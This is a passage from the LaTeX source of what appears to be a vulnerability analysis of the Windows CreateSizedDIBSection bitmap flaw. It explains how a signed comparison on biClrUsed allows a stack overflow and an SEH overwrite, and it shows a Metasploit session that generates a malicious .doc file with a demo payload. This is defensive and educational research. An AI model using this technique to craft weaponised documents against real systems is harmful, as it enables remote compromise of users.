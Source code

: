 \documentclass[12pt, titlepage]{article}
\begin{document}
    \begin{lstlisting}
        mov     [ebp+bmi.bmiHeader.biClrUsed], eax
        ; [...]
        mov     ecx, eax
        cmp     ecx, 100h
        jg      error
        add     esi, 28h
        lea     edi, [ebp+bmi.bmiColors]
        rep movsd   ;move ds:esi -> ds:edi, repeated ecx times
    \end{lstlisting}
Here we can see a simple check concerning the biClrUsed field: cmp ecx, 100h, but keep in mind that the x86 cmp instruction performs a \textbf{signed} check. Thus if we inject a negative value in this field we bypass the check and trigger the stack-overflow. Take a simple example, $biClrUsed = -1 = 0xFFFFFFFF$, and actually $0xFFFFFFFF < 0x100$ in signed representation so we do not jump to the error label. Now it tries to write content pointed by esi into memory pointed by edi (that points into the stack) until ecx equals zero. Result: you will try to write out of the stack limit, and the CPU raises an exception. However this bug is very interesting for, at least, two reasons:
\begin{itemize}
  \item We can inject null bytes without problems.
  \item We don't have a size constraint concerning the payload (approximately several hundred bytes for our exploit).
\end{itemize}
But we will \textbf{inevitably} raise an exception with a negative value for the following reason. The minimum value you can have in an \emph{unsigned int representation} with a \emph{signed int} is 0x80000000 (Sign bit = 1), thus the instruction movsd will be repeated around \textbf{2000000000} times trying to move a dword. The only solution to exploit is to overwrite an \emph{SEH} structure in the stack.

\section{Trigger the vulnerability}
In this section, we will focus on how the bug is triggered from the explorer. To do that, we can in a first part use the @jduck1337 exploit to create an evil .doc file:
\lstset{caption=Usage of metasploit to generate an exploit}
\begin{lstlisting}
    msf > use exploit/windows/fileformat/ms11_xxx_createsizeddibsection
    msf exploit(ms11_xxx_createsizeddibsection)> set PAYLOAD windows/speak_pwned
    PAYLOAD => windows/speak_pwned
    msf exploit(ms11_xxx_createsizeddibsection) > show options
    msf exploit(ms11_xxx_createsizeddibsection) > exploit

    [*] Creating 'msf.doc' file ...
    [*] Generated output file C:/Metasploit/msf3/data/exploits/msf.doc
\end{lstlisting}
\end{document}
